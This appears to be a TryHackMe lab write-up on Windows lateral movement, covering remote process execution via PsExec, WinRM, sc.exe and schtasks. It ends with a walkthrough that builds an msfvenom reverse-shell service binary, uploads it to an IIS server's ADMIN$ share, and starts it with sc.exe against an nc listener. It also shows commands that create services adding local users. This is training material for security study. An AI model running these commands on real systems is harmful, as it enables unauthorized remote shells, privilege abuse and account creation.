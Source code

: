 # Spawning processes remotely

| Remote Session           | Port(s)                  | Requirements                               |
|--------------------------|--------------------------|--------------------------------------------|
| PsExec                   | TCP/445                  | Account must be an administrator           |
| WinRM over HTTP          | TCP/5985                 | Group Memberships: Remote Management Users |
| WinRM over HTTPS         | TCP/5986                 | Group Memberships: Remote Management Users |
| DCE/RPC                  | TCP/135, TCP/49152-65535 | Group Memberships: Administrators          |
| RPC over SMB Named Pipes | TCP/445                  | Group Memberships: Administrators          |
| RPC over SMB Named Pipes | TCP/139                  | Group Memberships: Administrators          |

## PsExec

| ![PsExex Auth Flow](../../_static/images/psexec.png) |
|:--:|
| Authentication workflow |

1. Connect to `Admin$` share and upload a service binary `psexesvc.exe`.
2. Connect to the service control manager to create and run a service named `PSEXESVC` and associate the service 
binary with `C:\Windows\psexesvc.exe`.
3. Create some named pipes to handle `stdin`/`stdout`/`stderr`.

Start a remote command prompt:

    .\psexec.exe \\<IP target> -u <username> -p <password> -i cmd.exe

## WinRM

PowerShell:

    $username = 'user.name'
    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)
    $session = New-PSSession -ComputerName target-ip -Credential $credential
    $session | Enter-PSSession

Cleanup:

    $session | Remove-PSSession

A single command:

    $username = 'user.name'
    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)
    Invoke-Command -ComputerName target-ip -Credential -ScriptBlock {Get-ComputerInfo}

## sc.exe

Remote command execution by registering and running services on a host. The service is configured to run a command 
at start up.

| ![RCP](../../_static/images/sc-RPC.png) |
|:--:|
| Try authenticating to the Service Control Manager using RPC first. |

If RPC fails:

| ![SMB](../../_static/images/sc-SMB.png) |
|:--:|
| Try communicating using an SMB named pipe |

Register the fake service (`binpath` is the command to run on the host)

    sc.exe \\<IP Target> create <fakeservice> binpath= "net user <username> <password> /add" start= auto

Start the remote service to run the command:

    sc.exe \\<IP Target> start <fakeservice>

Stop and cleanup:

    sc.exe \\<IP Target> stop <fakeservice>
    sc.exe \\<IP Target> delete <fakeservice>

## schtasks

Remote command/payload execution by registering a scheduled task on a host.

Create and run Task:

    schtasks /s target-ip /RU "SYSTEM" /create /tn "Task" /tr "powershell -command 'Get-ComputerInfo'" /sc ONCE /sd 01/01/1970 /st 00:00
    schtasks /s target-ip /run /tn "Task"

Cleanup:

    schtasks /s target-ip /tn "Task" /DELETE /F

## Get flag

Leverage a session on the jump host to deliver a payload to an IIS web server. The payload will connect back to 
the attack machine (Kali VM in my case).

Use the credentials downloaded (see [setup](setup.md)) to ssh into `thmjmp2`:

    ssh <username>@za.tryhackme.com@thmjmp2.za.tryhackme.com

On attack machine, create a service binary payload:

    msfvenom -p windows/shell_reverse_tcp LHOST=<IP address VPN> LPORT=4444 -f exe-service -o iispwn.exe

Use the given credentials to transfer the file to the IIS server:

    smbclient -c 'put iispwn.exe' -U <username> -W ZA '//thmiis.za.tryhackme.com/ADMIN$' <password>

Start a listener to receive the reverse shell from the IIS server:

    sudo nc -lnvp 4444

Use the `ssh` session on `thmjmp2` as reverse shell (no need for runas etc.):

    sc.exe \\thmiis.za.tryhackme.com create pwniis binpath= "%windir%\isspwn.exe" start= auto
    sc.exe \\thmiis.za.tryhackme.com start pwniis

Run the `flag.exe` file on the users desktop on THMIIS.